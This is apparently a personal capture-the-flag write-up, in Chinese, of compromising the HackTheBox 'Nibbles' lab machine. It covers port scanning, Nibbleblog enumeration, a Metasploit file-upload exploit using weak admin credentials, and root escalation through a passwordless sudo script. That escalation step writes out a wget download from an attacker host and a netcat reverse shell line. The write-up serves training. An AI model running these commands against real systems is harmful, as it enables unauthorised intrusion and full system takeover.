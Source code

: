 ```yaml
---
title: Nibbles（sudo no pass )
categories:
- training
tags:
- training
---
```

### 端口扫描

`nmap -sS -Pn 10.10.10.75 -vv`

```
**22/tcp    open     ssh             syn-ack ttl 63**
30/tcp    filtered unknown         no-response
**80/tcp    open     http            syn-ack ttl 63**
646/tcp   filtered ldp             no-response
705/tcp   filtered agentx          no-response
1001/tcp  filtered webpush         no-response
1043/tcp  filtered boinc           no-response
1052/tcp  filtered ddt             no-response
```

### web探测
>Info1:  `Apache/2.4.18 (Ubuntu) Server`

>Info2:`http://10.10.10.75/nibbleblog/themes/note-2/views/blog/view.bit`
var HTML_PATH_ROOT = "/nibbleblog/";var HTML_PATH_ADMIN = "/nibbleblog/admin/";var HTML_PATH_ADMIN_AJAX = "/nibbleblog/admin/ajax/";var HTML_PATH_ADMIN_JS = "/nibbleblog/admin/js/";var HTML_PATH_ADMIN_TEMPLATES = "/nibbleblog/admin/templates/";var _MAX_FILE_SIZE = 1024 * 3000;

>Info3:`/nibbleblog/admin/templates/`
在这个目录下找到一些图片，有一些图片，看时间是今天，明显是其他人传上去的webshell。

>Info4: `feed.php`，有人新建了一个用户。说明有些关键的文件我还没发现。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%204.PNG)

>Info5:`http://10.10.10.75/nibbleblog/content/private/plugins/my_image/db.xml`
<plugin name="My image" author="Diego Najar" 
该插件，有一个作者名称，说不定有用，mark一下。

GET /nibbleblog/index.php?controller=post&amp;action=view&amp;id_post=7 HTTP/1.1

经过上面的信息搜集，摸索到了一些头绪。
在上传图片时，nibbleBlog没有检查文件类型，于是可以上传php文件。
[参考资料：nibbleBlog命令执行漏洞](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)

以上的信息都是经过**以下步骤**获取，为了方便查看，统一放在此处。

---

![查看源代码](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hh.PNG)
好，既然说了**这里没有什么有趣的！**
此地无银三百两。。

![查看博客首页](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hhh.PNG)

- Trying
dirbuster目录扫描，发现目录遍历。
![web目录扫描](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hhhh.PNG)

通过目录遍历，翻找发现，很多文件都是xml（可扩展标记语言文件）。怀疑有xxe漏洞，xml external entyty，xml外部实体注入。

- Trying 进行验证
在feed.php源码，`http://10.10.10.75/nibbleblog/feed.php`

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95.PNG)

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7.PNG)

在burp数据包添加xml语句，返回包并没有什么不同。。难道并没有xml外部实体注入？
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%202.PNG)

发现一个页面，有xml解析错误。说明对xml文件有解析。。经验不够，分析不出什么了。
![捕获 3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%203.PNG)

- Trying ：找后台

通过google搜索，得知该cms的后台
`http://10.10.10.75/nibbleblog/admin.php`
就尝试登陆了一次，提示`Nibbleblog security error - Blacklist protection`
就被加入了黑名单。。

---

## 文件上传获得shell

```
use exploit/multi/http/nibbleblog_file_upload
set RHOSTS 10.10.10.75
set USERNAME admin
set PASSWORD nibbles
set TARGETURI /nibbleblog
run

获得meterpreter shell
```
## 提权

参考以前做过的方式
[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

```
/usr/bin/python3.5 -c 'import pty; pty.spawn("/bin/bash")'
uname -a 说明64位linux

sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


whereis nc


cd /home/nibbler/personal/stuff/
wget http://10.10.14.7:800/netcat-64
chmod a+x netcat-64
kali : nc -lnvp 9900
echo '#!/bin/bash' > monitor.sh
echo "./netcat-64 -e /bin/bash 10.10.14.7 9900" >>  monitor.sh
chmod a+x monitor.sh
sudo ./monitor.sh
```
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/11.PNG)

## 方法二：
不必上传netcat。

monitor.sh
```
bash -i
```
运行`sudo ./monitor.sh`后，本地即可从nibbler到root

## 总结
一般来说，黑名单限制登陆，是不允许暴力破解的。

但是这个靶机用的是弱密码，=。=

这就很尴尬了
